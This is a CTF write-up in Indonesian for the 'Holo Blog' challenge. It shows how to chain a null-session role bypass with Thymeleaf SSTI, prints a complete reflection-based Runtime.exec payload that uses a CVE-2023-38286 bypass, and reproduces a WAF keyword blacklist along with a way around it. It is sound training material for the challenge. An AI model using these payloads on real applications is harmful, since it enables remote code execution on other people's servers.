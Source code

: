 # Holo Blog

|Category|Solves|
|--------|------|
|Web|0/12|

# Description
Just finished Hololep blog yesterday, can you check it for me?

# Overview

Pada challenge ini terdapat 2 vulnerability. Yang pertama adalah SSTI yang dapat kita lihat pada source code berikut

```java
public class Public {
    @GetMapping("/")
    String index(HttpSession session) throws Exception {
        String lang = (String) session.getAttribute("lang");
        return String.format("lang/%s/index", lang); // vulnerable to SSTI
    }
}
```
> [source code](https://github.com/dimasma0305/My-CTF-Challenges/blob/cffb36330020de892d3073a42d71bc6e50a8d23b/Hology-final-2023/Holo-Blog/src/src/main/java/com/blog/blog/controler/Public.java#L13)

Dan yang kedua adalah null session trick untuk membypass `"guest".equals(role)`. Kita dapat merubah atribute "lang" dengan melakukan bypass "guest" pada kode berikut:

```java
    @PatchMapping("/lang")
    DefaultResponseFormat patchLang(@Valid @RequestBody(required = true) Lang data, HttpSession session)
            throws Exception {
        val defaultResponseFormat = new DefaultResponseFormat();
        val sessionId = session.getId();
        val user = new User();
        val role = user.getRole(sessionId);
        if ("guest".equals(role)) {
            throw new HttpClientErrorException(HttpStatus.UNAUTHORIZED, "Unauthorized");
        } else {
            session.setAttribute("lang", data.getLang());
            defaultResponseFormat.setMessage("ok");
        }
        return defaultResponseFormat;
    }
```
> [source code](https://github.com/dimasma0305/My-CTF-Challenges/blob/88ed381fead0fea20a2d0f5b45b657f88148b9c2/Hology-final-2023/Holo-Blog/src/src/main/java/com/blog/blog/controler/RestPublic.java#L34)

Kalian dapat melakukan bypass dengan cara membuat "role" menjadi null, ini bisa dilakukan dengan mengakses endpoint refresh:

```java
    @GetMapping("/refresh")
    RedirectView refresh(HttpSession session, HttpServletResponse response) throws SQLException {
        val redirectView = new RedirectView("/");
        val sessionId = session.getId();
        val user = new User();
        user.deleteUserByUserId(sessionId);
        response.setHeader("Set-Cookie", "JSESSIONID=null; Path=/; HttpOnly");
        return redirectView;
    }
```
> [source code](https://github.com/dimasma0305/My-CTF-Challenges/blob/88ed381fead0fea20a2d0f5b45b657f88148b9c2/Hology-final-2023/Holo-Blog/src/src/main/java/com/blog/blog/controler/RestPublic.java#L43)

Karna pada endpoint refresh melakukan delete pada user, maka program melakukan request ke database, maka username kita akan null.

## SSTI

Kita sudah dapat menkontrol atribute "lang", sekarang kita bisa melakukan SSTI spring view manipulation yang bisa kalian lihat penjelasannya pada artikel berikut: [link](https://github.com/veracode-research/spring-view-manipulation)

Tapi karna terdapat restriksi dari thymeleaf, kita harus membypass restriksi itu menggunakan [CVE-2023-38286](https://nvd.nist.gov/vuln/detail/CVE-2023-38286) yang POC-nya dapat kita lihat pada github repo berikut https://github.com/p1n93r/SpringBootAdmin-thymeleaf-SSTI .

Base Payload untuk melakukan exploit SSTI pada challenge ini dengan menggunakanas bypass tersebut kurang lebih seperti ini:

```java
getRuntimeMethod=''.getClass().forName('org.springframework.util.ReflectionUtils').findMethod(''.getClass().forName('org.springframework.util.ClassUtils').forName('java.lang.Runtime',''.getClass().forName('org.springframework.util.ClassUtils').getDefaultClassLoader()), 'getRuntime' )

runtimeObj=''.getClass().forName('org.springframework.util.ReflectionUtils').invokeMethod(getRuntimeMethod, null)

exeMethod=''.getClass().forName('org.springframework.util.ReflectionUtils').findMethod(''.getClass().forName('org.springframework.util.ClassUtils').forName('java.lang.Runtime',''.getClass().forName('org.springframework.util.ClassUtils').getDefaultClassLoader()), 'exec', ''.getClass())

finals=''.getClass().forName('org.springframework.util.ReflectionUtils').invokeMethod(exeMethod, runtimeObj, 'calc' )
```

Dikarenakan kita tidak bisa menggunakan `T()` seperti pada POC, kita menggantinya menggunakan `''.getClass().forName()`.

Jika digabungkan semua payload tersebut, maka final payload akan terlihat seperti berikut:

```java
__${''.getClass().forName('org.springframework.util.ReflectionUtils').invokeMethod(''.getClass().forName('org.springframework.util.ReflectionUtils').findMethod(''.getClass().forName('org.springframework.util.ClassUtils').forName('java.lang.Runtime',''.getClass().forName('org.springframework.util.ClassUtils').getDefaultClassLoader()), 'exec', ''.getClass()), ''.getClass().forName('org.springframework.util.ReflectionUtils').invokeMethod(''.getClass().forName('org.springframework.util.ReflectionUtils').findMethod(''.getClass().forName('org.springframework.util.ClassUtils').forName('java.lang.Runtime',''.getClass().forName('org.springframework.util.ClassUtils').getDefaultClassLoader()), 'getRuntime' ), null), 'calc' )}__
```

Sekarang kita perlu membypass WAF berikut ini:

```java
public class WAF {
    private static enum WafList {
        SSTI("\"", "+", "Runtime", "concat", "replace", "join", "format", "substring", "class", "java", "exec", "char",
                "Process", "cmd", "eval", "Char", "true", "false");

        @Getter
        private final String[] blacklist;

        WafList(String... blacklist) {
            this.blacklist = blacklist;
        }
    }
```

> [source code](https://github.com/dimasma0305/My-CTF-Challenges/blob/88ed381fead0fea20a2d0f5b45b657f88148b9c2/Hology-final-2023/Holo-Blog/src/src/main/java/com/blog/blog/waf/WAF.java#L6C1-L17C6)

Disini untuk melakukan bypass kita menggunakan concat untu mekonstruksi string yang bisa kita panggil seperti berikut:

```java
''.getClass().getMethods()[47].invoke(str1,str2)
```
> Note: concat tidak selalu berada di index ke 47, ini tergantung kode java dan juga versi java yang kita gunakan.

Untuk final payload bisa di lihat pada folder [./writeup](./writeup/)


# Reference
- https://github.com/p1n93r/SpringBootAdmin-thymeleaf-SSTI
- https://github.com/veracode-research/spring-view-manipulation
